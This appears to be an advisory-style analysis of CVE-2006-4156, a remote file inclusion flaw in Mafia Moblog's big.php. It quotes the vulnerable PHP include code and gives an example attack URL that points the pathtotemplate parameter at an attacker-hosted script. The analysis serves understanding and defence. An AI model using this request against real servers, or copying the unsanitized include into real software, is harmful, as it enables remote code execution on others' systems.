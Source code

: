Based on the provided information, here's an analysis of the vulnerability described:

**CVE ID:** CVE-2006-4156

**Root Cause:** The vulnerability stems from the lack of proper sanitization of the `$pathtotemplate` variable in the `big.php` file of Mafia Moblog. This variable is used in an `include()` function without prior validation.

**Weaknesses/Vulnerabilities:**
*   **Remote File Inclusion (RFI):** The primary vulnerability is a Remote File Inclusion. The unsanitized `$pathtotemplate` variable allows an attacker to specify an arbitrary URL, which is then included in the script. This can lead to the inclusion of malicious code.
*   **Lack of Input Validation:** The application fails to validate the `pathtotemplate` parameter, allowing arbitrary input to be processed by `include()`.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** By including a remote file controlled by the attacker, arbitrary code can be executed on the server. This can lead to a full compromise of the affected system.
*   **Data Breach:** The attacker can gain access to sensitive data stored on the server.
*   **Denial of Service:** The attacker might be able to cause the application to malfunction or crash, leading to a denial-of-service condition.

**Attack Vectors:**
*   **HTTP GET Parameter:** The `$pathtotemplate` variable is passed via an HTTP GET parameter, making it easily exploitable using a web browser or other HTTP client.

**Required Attacker Capabilities/Position:**
*   **Remote Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Malicious Script Hosting:** The attacker needs to have access to a server to host the malicious script to be included.
*   **Low Attack Complexity:** The exploit is simple to execute, requiring no complex techniques.
*   **No Authentication:** The vulnerability can be exploited without any authentication.

**Technical Details:**
* The vulnerable code snippet is located in `big.php`:

```php
<?php
include("info.php");
include("template.php");
if (file_exists("$pathtotemplate/includes.php")) {include("$pathtotemplate/includes.php");}
include("$pathtotemplate/big.php");
?>
```

*   The attacker would craft a URL similar to this: `http://www.target.com/[Mafia Moblog]/big.php?pathtotemplate=[Evil Script]`
*   `[Evil Script]` is the URL of the malicious script hosted by the attacker.

**More Details than CVE Description:**
* The provided content offers a detailed explanation of the vulnerability, including vulnerable code, proof of concept, and a suggested solution. The CVE description is a placeholder and does not contain specific vulnerability details.

In summary, CVE-2006-4156 is a critical Remote File Inclusion vulnerability in Mafia Moblog due to a lack of sanitization of the `pathtotemplate` variable, leading to potential arbitrary code execution.